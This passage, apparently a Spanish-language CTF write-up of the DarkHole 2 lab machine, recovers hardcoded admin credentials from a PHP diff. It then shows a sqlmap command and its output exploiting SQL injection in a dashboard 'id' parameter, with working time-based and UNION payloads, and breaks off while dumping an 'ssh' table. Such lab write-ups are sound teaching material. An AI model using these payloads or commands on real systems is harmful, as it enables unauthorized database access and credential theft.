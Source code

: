 ```php
@@ -0,0 +1,42 @@
+<?php
+session_start();
+require 'config/config.php';
+if($_SERVER['REQUEST_METHOD'] == 'POST'){
+    if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
+        $_SESSION['userid'] = 1;
+        header("location:dashboard.php");
+        die();
+    }
```

Vemos unas credenciales y un correo en texto plano

- `lush@admin.com:321`

## Explotación

Si probamos a iniciar sesión con estos datos podremos a acceder a la aplicación web.
En ella podremos actualizar nuestros datos de perfil. Si nos fijamos en la url podremos observar un parámetro **id** que es vulnerable a **SQLI error based**

Vamos a hacer uso de la herramienta SQLMAP para extraer las bases de datos existentes.

```bash
❯ sqlmap -u "http://192.168.1.83/dashboard.php?id=1" --cookie "PHPSESSID=m4p16840eqi6g1alsg4phhbi6m" -D darkhole_2 --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.3#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:28:03 /2023-01-24/

[19:28:04] [INFO] resuming back-end DBMS 'mysql' 
[19:28:04] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 1888 FROM (SELECT(SLEEP(5)))CTUu) AND 'LLdB'='LLdB

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=-8315' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x7178626a71,0x566363776d5573774f7a77506458427547515a41465456786f6c6643454a524f696f426a72564775,0x717a7a7a71),NULL-- -
---
[19:28:04] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.04 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[19:28:04] [INFO] fetching tables for database: 'darkhole_2'
[19:28:04] [INFO] fetching columns for table 'ssh' in database 'darkhole_2'
[19:28:04] [INFO] fetching entries for table 'ssh' in database 'darkhole_2'
Database: darkhole_2
Table: ssh
[1 entry]
+----+------+--------+
```